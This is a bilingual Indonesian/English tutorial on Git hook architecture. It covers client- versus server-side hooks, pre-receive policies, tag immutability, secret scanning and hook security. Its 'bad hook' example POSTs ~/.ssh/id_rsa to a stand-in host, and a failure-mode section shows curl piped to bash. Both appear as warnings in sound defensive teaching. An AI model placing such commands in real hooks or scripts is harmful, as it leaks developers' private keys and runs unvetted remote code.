






# Part 068 — Hooks Architecture and Policy Boundaries

Git hooks adalah script yang dijalankan Git pada titik tertentu dalam lifecycle repository.

Tetapi hook sering disalahpahami.

Hook bukan sekadar tempat menjalankan formatter. Hook adalah **extension point** dalam state machine Git.

Dan karena hook bisa menjalankan command, memblokir operasi, mengubah file, atau mengirim data, hook juga merupakan **policy boundary** dan **security boundary**.

Mental model paling penting:

> Client-side hook bagus untuk feedback cepat. Server-side hook bagus untuk enforcement. CI bagus untuk verification. Branch protection bagus untuk governance. Jangan menukar peran ini sembarangan.

---

## 1. Hook Mental Model

Git menjalankan hook pada event tertentu:



Hook adalah program. Git tidak peduli apakah script itu Bash, Python, Node, Go binary, Java CLI, atau wrapper.

Yang Git pedulikan:

- hook berada di lokasi yang benar;
- executable jika platform memerlukannya;
- exit code menentukan success/failure untuk hook blocking;
- input/arguments sesuai contract hook tersebut.

---

## 2. Default Hook Location

Secara default, hooks berada di:

```text
.git/hooks/
```

Setelah `git init`, biasanya ada sample hooks:

```text
.git/hooks/pre-commit.sample
.git/hooks/commit-msg.sample
.git/hooks/pre-push.sample
```

Sample tidak aktif sampai kamu rename dan membuatnya executable:

```bash
mv .git/hooks/pre-commit.sample .git/hooks/pre-commit
chmod +x .git/hooks/pre-commit
```

Masalah besar:

> `.git/hooks` tidak versioned.

Jadi hook lokal tidak otomatis ikut clone.

Untuk team workflow, gunakan salah satu:

- `core.hooksPath` ke directory versioned;
- bootstrap script;
- repository template;
- hook framework seperti pre-commit/Husky/Lefthook/Overcommit;
- server-side hooks di hosting platform/self-hosted Git server;
- CI/branch protection sebagai enforcement akhir.

---

## 3. `core.hooksPath`: Versioned Hooks Without Copying into `.git/hooks`

Contoh:

```bash
git config core.hooksPath .githooks
mkdir .githooks
```

Repository:

```text
.githooks/
  pre-commit
  commit-msg
  pre-push
```

Script:

```bash
#!/usr/bin/env bash
set -euo pipefail

echo "running pre-commit"
```

Set executable:

```bash
chmod +x .githooks/pre-commit
```

Trade-off:

- hook scripts bisa versioned;
- developer tetap perlu bootstrap config;
- malicious repo bisa mencoba meyakinkan user menjalankan bootstrap yang memasang hook/filter berbahaya;
- CI harus explicit jika ingin menjalankan hook suite.

Do not hide this. Bootstrap must be auditable.

---

## 4. Hook Execution Model

A hook can receive:

- positional arguments;
- stdin stream;
- environment variables;
- current working directory context;
- Git config/environment.

Exit code matters:

| Exit Code | Meaning for blocking hooks |
|---|---|
| `0` | allow operation to continue |
| non-zero | abort operation |

Example `pre-commit`:

```bash
#!/usr/bin/env bash
set -euo pipefail

git diff --cached --check
```

If whitespace check fails, commit is blocked.

But many local hooks can be bypassed:

```bash
git commit --no-verify

git push --no-verify
```

Therefore local hooks are not sufficient for policy enforcement.

---

## 5. Client-Side vs Server-Side Hooks

| Type | Runs Where | Trust Level | Best For |
|---|---|---|---|
| client-side | developer machine | low/medium | fast feedback, formatting, local checks |
| server-side | Git server | high | admission control, protected refs, audit logging |
| CI | build infrastructure | high-ish | full test/verification, reproducible checks |
| branch protection | hosting platform | high | review/check governance |

Client-side hooks improve developer experience.

Server-side hooks protect shared refs.

CI proves integrated state.

Branch protection coordinates human and automated approval.

Confusing these creates weak policy.

---

## 6. Commit Lifecycle Hooks

Commit flow:



Main hooks:

| Hook | Timing | Blocking? | Common Use |
|---|---|---|---|
| `pre-commit` | before commit message | yes | staged lint, secret scan, whitespace check |
| `prepare-commit-msg` | before editor/message finalization | yes | prefill template, issue ID insertion |
| `commit-msg` | after message prepared | yes | message policy, trailers, ticket reference |
| `post-commit` | after commit created | no | notification, local metadata update |

Important:

- `pre-commit` should inspect staged content, not random working tree state;
- `commit-msg` should inspect the message file argument;
- `post-commit` cannot block the commit because commit already exists.

---

## 7. Pre-Commit Hook: Staged Snapshot, Not Working Tree Guesswork

Bad pre-commit:

```bash
npm test
eslint .
```

This checks working tree, including unstaged changes. It may pass/fail for content not in the commit.

Better staged check:

```bash
#!/usr/bin/env bash
set -euo pipefail

git diff --cached --check

files=$(git diff --cached --name-only --diff-filter=ACMR | grep -E '\.(js|ts|tsx)$' || true)
if [ -n "$files" ]; then
  npx eslint $files
fi
```

Still imperfect if lint reads project context, but closer to staged intent.

For exact staged content, advanced hooks can export staged files to temp directory or use tools that understand Git index.

Invariant:

> A pre-commit hook should not give false confidence by testing different content from what is being committed.

---

## 8. Commit Message Hook

`commit-msg` receives path to commit message file.

Example:

```bash
#!/usr/bin/env bash
set -euo pipefail

msg_file="$1"
subject=$(head -n1 "$msg_file")

if ! echo "$subject" | grep -Eq '^(feat|fix|docs|test|refactor|chore|perf|build|ci)(\(.+\))?: .{1,72}$'; then
  echo "Invalid commit subject: $subject" >&2
  echo "Expected: type(scope): short imperative summary" >&2
  exit 1
fi
```

Useful checks:

- subject length;
- empty body for risky change;
- required issue ID;
- `Signed-off-by` for DCO-like workflow;
- trailers for regulated change;
- forbidden vague message like `fix`, `misc`, `update`.

But do not make the hook so rigid that engineers write meaningless compliant messages.

Policy must improve signal, not just enforce shape.

---

## 9. Prepare Commit Message Hook

`prepare-commit-msg` can modify message before editor opens.

Use cases:

- insert branch ticket ID;
- insert template depending on commit type;
- preserve merge/squash metadata;
- add compliance skeleton.

Example:

```bash
#!/usr/bin/env bash
set -euo pipefail

msg_file="$1"
source="${2:-}"

branch=$(git symbolic-ref --short HEAD 2>/dev/null || true)
case "$branch" in
  *[A-Z][A-Z]-[0-9]*)
    ticket=$(echo "$branch" | grep -Eo '[A-Z]+-[0-9]+' | head -1)
    if ! grep -q "$ticket" "$msg_file"; then
      sed -i.bak "1s/^/[$ticket] /" "$msg_file"
      rm -f "$msg_file.bak"
    fi
    ;;
esac
```

Be careful with merge commits and squash commits. Git passes source information; do not corrupt generated merge messages.

---

## 10. Merge, Rebase, and Rewrite Hooks

Relevant hooks:

| Hook | Timing | Use |
|---|---|---|
| `pre-merge-commit` | after successful automatic merge before merge commit | block merge commit if checks fail |
| `post-merge` | after merge completes | restore metadata, install deps, notify |
| `pre-rebase` | before rebase | prevent rebase of protected/shared branch |
| `post-rewrite` | after amend/rebase rewrites commits | update metadata, notify tooling |

Example `pre-rebase` guard:

```bash
#!/usr/bin/env bash
set -euo pipefail

branch=$(git symbolic-ref --short HEAD 2>/dev/null || true)
case "$branch" in
  main|master|release/*)
    echo "Refusing to rebase protected branch: $branch" >&2
    exit 1
    ;;
esac
```

This is helpful locally, but not sufficient. Server branch protection must enforce shared ref safety.

---

## 11. Checkout and Worktree Hooks

`post-checkout` runs after checkout/switch.

Use cases:

- warn if dependency files changed;
- update local generated files;
- remind developer to run install;
- restore local metadata.

Example:

```bash
#!/usr/bin/env bash
set -euo pipefail

old="$1"
new="$2"
flag="$3"

if git diff --name-only "$old" "$new" -- package-lock.json pnpm-lock.yaml go.mod build.gradle 2>/dev/null | grep -q .; then
  echo "Dependency files changed. Run project bootstrap/install." >&2
fi
```

Do not automatically run heavy install without consent unless team explicitly accepts that workflow.

A hook that turns every branch switch into a 5-minute operation will be bypassed.

---

## 12. Pre-Push Hook

`pre-push` runs before objects are transferred to remote.

It receives remote name and URL as arguments and ref updates through stdin.

Example stdin line shape:

```text
<local-ref> <local-oid> <remote-ref> <remote-oid>
```

Example protected push guard:

```bash
#!/usr/bin/env bash
set -euo pipefail

remote="$1"
url="$2"

while read -r local_ref local_oid remote_ref remote_oid; do
  case "$remote_ref" in
    refs/heads/main|refs/heads/master|refs/heads/release/*)
      echo "Direct push to protected branch is not allowed: $remote_ref" >&2
      exit 1
      ;;
  esac
done
```

Again: local guard is convenience. Server must enforce.

Good pre-push checks:

- prevent accidental push to wrong remote;
- prevent WIP commits from leaving laptop;
- run targeted tests for changed modules;
- warn on huge push;
- block known secret patterns.

Bad pre-push checks:

- run entire enterprise test suite every push;
- depend on flaky network service;
- mutate commits silently;
- upload local data without consent.

---

## 13. Server-Side Receive Lifecycle

Push to server:



Main server hooks:

| Hook | Scope | Blocking? | Use |
|---|---|---|---|
| `pre-receive` | entire push | yes | global admission policy |
| `update` | each ref | yes | per-branch/tag policy |
| `proc-receive` | custom ref processing | yes | advanced server workflows |
| `post-receive` | after update | no | notify, trigger external systems |
| `post-update` | after refs updated | no | legacy notification/update info |
| `reference-transaction` | ref transaction phases | yes/observational depending phase | audit/ref transaction coordination |

Server hooks are where hard policy belongs when you operate your own Git server.

Hosted platforms expose equivalent behavior through branch protection, rulesets, required checks, signed commit policies, protected tags, and app integrations.

---

## 14. Pre-Receive Hook: The Admission Gate

`pre-receive` reads lines from stdin:

```text
<old-oid> <new-oid> <ref-name>
```

Example policy: block non-fast-forward on protected branches.

```bash
#!/usr/bin/env bash
set -euo pipefail

zero=0000000000000000000000000000000000000000

while read -r old new ref; do
  case "$ref" in
    refs/heads/main|refs/heads/master|refs/heads/release/*)
      if [ "$old" != "$zero" ] && [ "$new" != "$zero" ]; then
        if ! git merge-base --is-ancestor "$old" "$new"; then
          echo "Rejected non-fast-forward update to $ref" >&2
          exit 1
        fi
      fi
      ;;
  esac
done
```

This protects shared history from destructive update.

But in modern hosting, prefer platform-native branch protection where possible because it integrates with UI, audit logs, reviews, and exceptions.

---

## 15. Server Hook: Enforce Tag Immutability

Release tags should not move.

Example:

```bash
#!/usr/bin/env bash
set -euo pipefail

zero=0000000000000000000000000000000000000000

while read -r old new ref; do
  case "$ref" in
    refs/tags/v*)
      if [ "$old" != "$zero" ]; then
        echo "Rejected update/delete of existing release tag: $ref" >&2
        exit 1
      fi
      ;;
  esac
done
```

For regulated/reproducible systems, tag immutability is not style. It is release identity protection.

If a tag is wrong after publication, prefer corrective version/tag rather than moving the old one.

---

## 16. Server Hook: Block Large Blobs

Large blobs cause permanent repository cost.

Pre-receive can scan new objects:

```bash
#!/usr/bin/env bash
set -euo pipefail

limit=$((10 * 1024 * 1024)) # 10 MiB
zero=0000000000000000000000000000000000000000

tmp=$(mktemp)
trap 'rm -f "$tmp"' EXIT

while read -r old new ref; do
  if [ "$new" = "$zero" ]; then
    continue
  fi

  if [ "$old" = "$zero" ]; then
    git rev-list "$new" --not --all >> "$tmp"
  else
    git rev-list "$old..$new" >> "$tmp"
  fi
done

sort -u "$tmp" | while read -r commit; do
  git ls-tree -r -l "$commit" | awk -v limit="$limit" '$4 > limit {print $4, $5}'
done | while read -r size path; do
  echo "Large file rejected: $path ($size bytes)" >&2
  exit 1
done
```

Production version must be more robust and avoid expensive scans on huge pushes, but the concept stands:

> prevent bloat at admission, not after history has spread.

---

## 17. Server Hook: Secret Scanning Boundary

Secret scanning in pre-receive is useful, but never enough.

If secret reaches Git server:

1. treat as leaked;
2. rotate/revoke secret;
3. assess exposure;
4. remove/rewrite if necessary;
5. add prevention.

A hook can block known patterns:

```bash
git diff-tree --no-commit-id --name-only -r "$commit"
```

But robust secret detection is hard:

- false positives;
- encoded secrets;
- generated files;
- binary files;
- historical commits in push;
- performance cost.

Use dedicated scanning tools and platform features when possible.

---

## 18. Hooks and Branch Protection

Hooks and branch protection overlap, but they are not the same.

| Need | Better Control |
|---|---|
| require reviews | branch protection / ruleset |
| require CI passed | branch protection / required checks |
| block direct push | branch protection / server hook |
| enforce tag immutability | protected tags / server hook |
| local formatting feedback | client hook |
| reject large blobs | server hook / hosting rule |
| enforce commit message | commit-msg + server/CI check |
| verify release artifact | CI/release pipeline |

On hosted platforms, branch protection should be the primary shared-ref governance mechanism. Hooks are strongest when self-hosted or when implementing custom low-level policy not available in platform UI.

---

## 19. Hooks and CI: Different Questions

A hook asks:

> should this local operation continue?

CI asks:

> is this proposed integrated state valid?

A local `pre-commit` cannot know whether the final PR merge result passes integration tests. A `pre-push` cannot know whether merge queue state has changed. A server `pre-receive` can inspect pushed refs, but usually should not run a full build synchronously.

Use layered controls:



Each layer catches different failure modes.

---

## 20. Safe Hook Design Principles

A good hook is:

| Quality | Meaning |
|---|---|
| deterministic | same input gives same result |
| fast | does not punish normal workflow |
| scoped | checks relevant files/state |
| transparent | prints actionable error |
| portable | works across supported OS/shells |
| bypass-aware | does not pretend local hook is enforcement |
| idempotent | repeated execution safe |
| non-destructive | does not silently lose work |
| least privilege | avoids unnecessary network/secrets |
| auditable | versioned and documented |

A bad hook:

```bash
#!/usr/bin/env bash
npm install
npm test
curl -X POST https://internal.example/upload ~/.ssh/id_rsa
git add .
```

This is slow, dangerous, and violates trust boundaries.

---

## 21. Hooks Should Prefer Staged Data When Commit-Scoped

For commit hooks, inspect index:

```bash
git diff --cached --name-only

git diff --cached --check

git show :path/to/file
```

Avoid using only working tree:

```bash
cat path/to/file
```

Because working tree may include unstaged edits.

Example exact staged file extraction:

```bash
tmp=$(mktemp -d)
trap 'rm -rf "$tmp"' EXIT

while IFS= read -r path; do
  mkdir -p "$tmp/$(dirname "$path")"
  git show ":$path" > "$tmp/$path"
done < <(git diff --cached --name-only --diff-filter=ACMR)
```

Be careful with binary files and special filenames. For production hooks, use NUL-delimited paths.

---

## 22. NUL-Safe Hook Scripts

Filenames can contain spaces, quotes, and newlines.

Bad:

```bash
for f in $(git diff --cached --name-only); do
  echo "$f"
done
```

Better:

```bash
git diff --cached --name-only -z --diff-filter=ACMR | while IFS= read -r -d '' f; do
  printf 'checking %s\n' "$f"
done
```

Many internal hooks are subtly broken because they assume simple filenames.

Top-tier tooling treats path handling as correctness-critical.

---

## 23. Hook Output Should Be Actionable

Bad error:

```text
failed
```

Good error:

```text
Commit rejected: staged diff contains whitespace errors.
Run:
  git diff --cached --check
Fix the reported lines, then retry commit.
To intentionally bypass local feedback only:
  git commit --no-verify
Note: CI/server checks may still reject this change.
```

The hook should tell the developer:

- what failed;
- where;
- why it matters;
- how to fix;
- whether bypass exists;
- whether shared enforcement still applies.

---

## 24. Hook Dependencies

Hook dependencies are part of developer environment.

Bad:

```bash
#!/usr/bin/env bash
eslint .
```

If eslint is missing, the hook fails confusingly.

Better:

```bash
#!/usr/bin/env bash
set -euo pipefail

if ! command -v npx >/dev/null 2>&1; then
  echo "npx not found. Install Node.js or run project bootstrap." >&2
  exit 1
fi

npx eslint --version >/dev/null
```

Best depends on team:

- pinned tool versions;
- package manager scripts;
- hermetic dev environment;
- containerized hook runner;
- documented bootstrap.

---

## 25. Hooks Must Not Secretly Mutate Commits

Some hooks auto-format and run `git add`.

This can be convenient, but dangerous.

Problem:

- developer stages file A;
- hook formatter changes file A and B;
- hook runs `git add .`;
- commit includes unexpected file B.

Safer pattern:

1. detect formatting issue;
2. print command to fix;
3. fail;
4. developer reviews and stages changes.

If team chooses auto-fix, constrain it:

- only modify staged paths;
- show summary;
- avoid `git add .`;
- never stage untracked files automatically;
- provide opt-out.

---

## 26. Bypass and Trust

Local hooks can often be bypassed:

```bash
git commit --no-verify
git push --no-verify
```

Even without bypass, a developer can remove or edit local hooks.

Therefore:

> Anything required for repository integrity must be enforced after data leaves developer machine.

Examples:

| Policy | Local Hook Enough? | Required Enforcement |
|---|---:|---|
| no direct push to main | no | branch protection/server hook |
| release tags immutable | no | protected tags/server hook |
| no secrets | no | server/CI/platform scanning |
| tests pass | no | CI required checks |
| commit message shape | maybe no | CI/server check if required |
| formatting | maybe | CI if formatting is mandatory |

Local hooks are ergonomic accelerators, not trust anchors.

---

## 27. Security Model of Hooks

Hooks execute code.

That means hook installation is security-sensitive.

Risks:

- malicious hook exfiltrates secrets;
- hook modifies commits;
- hook changes remotes/config;
- hook captures credentials;
- hook downloads untrusted code;
- hook runs during checkout/merge/push unexpectedly.

Git does not automatically install hooks from cloned repositories for a reason.

Safe bootstrap policy:

- show script content or keep it small;
- pin tool versions;
- avoid curl-pipe-shell installation;
- require explicit developer consent;
- do not store secrets in hook config;
- run least-privilege;
- allow audit.

For external/untrusted repositories, do not run bootstrap scripts blindly.

---

## 28. Hook Frameworks

Hook frameworks solve distribution and multi-language orchestration.

Examples:

| Framework | Common Ecosystem |
|---|---|
| pre-commit | polyglot, Python-based runner |
| Husky | Node/npm projects |
| Lefthook | polyglot, fast runner |
| Overcommit | Ruby ecosystem |

Benefits:

- versioned config;
- pinned hook versions;
- consistent installation;
- easier multi-hook management;
- caching/parallel execution.

But framework does not change trust boundary.

A framework-managed local hook is still local and bypassable.

---

## 29. Policy as Code Layering

A mature Git policy uses layers:



Example policy table:

| Rule | Local | CI | Server/Platform |
|---|---|---|---|
| no whitespace errors | pre-commit | optional | optional |
| no secrets | pre-commit quick scan | full scan | pre-receive/platform scan |
| tests pass | optional targeted | required | required check gate |
| no direct main push | pre-push warning | n/a | branch protection |
| release tags immutable | pre-push warning | n/a | protected tag/server hook |
| changelog updated | pre-commit optional | required check | PR rule |
| signed tags | local helper | release verify | protected release policy |

---

## 30. Example: Local Hooks for a Backend Service

Directory:

```text
.githooks/
  pre-commit
  commit-msg
  pre-push
scripts/
  git-hooks/
    staged-java-check.sh
    commit-msg-check.sh
```

Bootstrap:

```bash
git config core.hooksPath .githooks
```

`.githooks/pre-commit`:

```bash
#!/usr/bin/env bash
set -euo pipefail

git diff --cached --check

changed_java=$(git diff --cached --name-only --diff-filter=ACMR -z -- '*.java' | tr '\0' '\n' || true)
if [ -n "$changed_java" ]; then
  ./gradlew spotlessCheck testClasses
fi
```

`.githooks/commit-msg`:

```bash
#!/usr/bin/env bash
set -euo pipefail

./scripts/git-hooks/commit-msg-check.sh "$1"
```

`.githooks/pre-push`:

```bash
#!/usr/bin/env bash
set -euo pipefail

while read -r local_ref local_oid remote_ref remote_oid; do
  case "$remote_ref" in
    refs/heads/main|refs/heads/release/*)
      echo "Direct push blocked locally: $remote_ref" >&2
      echo "Open a PR instead." >&2
      exit 1
      ;;
  esac
done
```

Server/branch protection still enforces main/release.

---

## 31. Example: Server Hook for Regulated Release Tags

Policy:

- release tags match `vMAJOR.MINOR.PATCH`;
- tag must not move;
- tag object should be annotated/signed if process requires it;
- deletion not allowed.

Pseudo pre-receive:

```bash
#!/usr/bin/env bash
set -euo pipefail

zero=0000000000000000000000000000000000000000

while read -r old new ref; do
  case "$ref" in
    refs/tags/v*)
      if ! echo "$ref" | grep -Eq '^refs/tags/v[0-9]+\.[0-9]+\.[0-9]+(-[A-Za-z0-9.-]+)?$'; then
        echo "Invalid release tag format: $ref" >&2
        exit 1
      fi

      if [ "$old" != "$zero" ]; then
        echo "Release tag already exists and cannot be moved/deleted: $ref" >&2
        exit 1
      fi

      type=$(git cat-file -t "$new")
      if [ "$type" != "tag" ]; then
        echo "Release tag must be annotated tag object, got: $type" >&2
        exit 1
      fi
      ;;
  esac
done
```

This is not a complete signing policy, but it shows the structure.

---

## 32. Hooks and Signed Commits/Tags

Hooks can verify signatures, but be careful where verification happens.

Local hook can remind:

```bash
git config commit.gpgsign true
```

CI/server can verify:

```bash
git verify-commit <commit>
git verify-tag <tag>
```

But trust policy requires key management:

- which keys are trusted;
- how keys are rotated;
- how bot keys are handled;
- what happens during incident;
- whether SSH/GPG/S/MIME signing is accepted;
- whether merge commits must be signed.

A hook command alone is not a trust model.

---

## 33. Hooks and Rewrites

`post-rewrite` runs after commands that rewrite commits, such as amend or rebase.

Use cases:

- update code review metadata;
- notify local tooling;
- refresh stacked branch state;
- update mapping old commit -> new commit.

But do not rely on it for audit of public history. Local post-rewrite can be missing or bypassed.

For public branch rewrite detection, use server hooks, protected branch policy, or hosting audit logs.

---

## 34. Hooks and Worktrees

With `git worktree`, hooks are still associated with repository configuration and hooks path, but each worktree has its own working directory state.

Hook design implications:

- do not assume repository root from script location;
- use `git rev-parse --show-toplevel`;
- handle detached HEAD;
- handle multiple worktrees on same branch restrictions;
- avoid writing shared temp files without isolation.

Example:

```bash
repo_root=$(git rev-parse --show-toplevel)
cd "$repo_root"
```

---

## 35. Hooks and Submodules

Submodules are separate Git repositories.

Parent hooks do not automatically govern submodule commits.

If policy applies inside submodule:

- install hooks inside submodule too;
- enforce on submodule remote/server;
- verify parent gitlink updates in CI;
- restrict submodule URL/source if supply-chain sensitive.

Parent pre-commit can detect submodule pointer changes:

```bash
git diff --cached --submodule=short
```

But it cannot fully validate submodule repository policy unless it fetches/inspects that repo.

---

## 36. Hooks and Partial Clone / Sparse Checkout

Client hook that scans working tree can miss files absent due to sparse checkout.

Example bad assumption:

```bash
find . -type f | secret-scan
```

In sparse checkout, this only scans materialized files.

For repository-wide policy, use server/CI scanning over commits/trees/objects, not local working tree only.

Pre-commit hooks may reasonably check staged paths because those are local intent. But do not claim repository-wide compliance from sparse local scan.

---

## 37. Performance Budget

Hooks that are too slow get bypassed.

Suggested budgets:

| Hook | Target |
|---|---|
| pre-commit | < 1–5 seconds for common path |
| commit-msg | < 100 ms |
| pre-push | < 5–30 seconds depending project |
| server pre-receive | fast enough to not harm all pushes |
| post-receive | async if heavy |

Move heavy work to CI.

Use staged/changed file filtering:

```bash
git diff --cached --name-only --diff-filter=ACMR
```

Cache where safe.

Avoid running full test suite on every commit unless repository is small and team explicitly wants it.

---

## 38. Failure Mode: Hook Not Installed

Symptoms:

- policy works on one machine but not another;
- CI fails after local commit passed;
- commit message format inconsistent;
- developer says "it worked for me".

Root cause:

- `.git/hooks` not versioned;
- bootstrap not run;
- file not executable;
- `core.hooksPath` not set;
- Windows/Unix script incompatibility.

Mitigation:

- bootstrap check in repo setup;
- CI verifies policy independently;
- preflight command:

```bash
git config --get core.hooksPath
ls -la .githooks
```

---

## 39. Failure Mode: Hook Checks Working Tree Instead of Commit

Symptoms:

- hook passes but commit fails CI;
- hook fails due to unstaged local experiment;
- commit contains unformatted staged content but working tree is formatted;
- developer distrusts hook.

Fix:

- inspect staged diff;
- use `git diff --cached`;
- extract `:path` from index;
- avoid `git add .` side effects.

---

## 40. Failure Mode: Hook Blocks Emergency Work

Policy hooks can become operational risk.

Example:

- production incident hotfix needed;
- local hook requires network service that is down;
- server hook rejects due to unrelated scanner outage;
- team cannot ship fix.

Mitigation:

- local hooks bypassable;
- server hooks have documented emergency override path;
- branch protection bypass is audited and restricted;
- CI has break-glass procedure;
- post-incident review required.

A control with no emergency protocol eventually becomes either ignored or dangerous.

---

## 41. Failure Mode: Hook Downloads and Executes Unpinned Code

Bad:

```bash
curl https://example.com/hook.sh | bash
```

Risk:

- supply-chain compromise;
- non-reproducible behavior;
- broken offline development;
- hidden data exfiltration.

Better:

- vendor small scripts;
- pin versions/checksums;
- use package lockfiles;
- run in controlled environment;
- review dependency updates.

Hook tooling is part of your supply chain.

---

## 42. Failure Mode: Server Hook Too Expensive

A server hook that scans every object in a huge push can degrade the Git server.

Symptoms:

- pushes hang;
- all teams affected;
- timeouts;
- repeated retries worsen load.

Mitigation:

- scan only newly introduced commits/objects;
- set size/time bounds;
- offload heavy analysis to async CI;
- use platform-native scanners;
- maintain object cache;
- reject obviously bad patterns early.

Server hooks are global choke points. Treat them like production services.

---

## 43. Designing a Git Hook Suite for a Team

Use this sequence:



Questions:

1. Is the rule about local convenience or shared integrity?
2. Can the rule be bypassed?
3. Is bypass acceptable?
4. Does the rule check the right state?
5. What is the failure message?
6. What is the emergency path?
7. Who owns the hook?
8. How is it tested?

---

## 44. Testing Hooks

Treat hooks like code.

Basic test structure:

```text
tests/hooks/
  test_commit_msg_valid.sh
  test_commit_msg_invalid.sh
  test_pre_receive_rejects_tag_move.sh
```

Use temp repos:

```bash
tmp=$(mktemp -d)
trap 'rm -rf "$tmp"' EXIT
cd "$tmp"
git init
```

Test commit-msg hook:

```bash
msg=$(mktemp)
echo "bad" > "$msg"
/path/to/commit-msg "$msg" && exit 1 || true
```

Test pre-receive with stdin:

```bash
printf '%s %s %s\n' "$old" "$new" "refs/heads/main" | /path/to/pre-receive
```

If hook controls release or protected refs, it deserves automated tests.

---

## 45. Hook Observability

For local hooks:

- print clear errors;
- allow verbose mode;
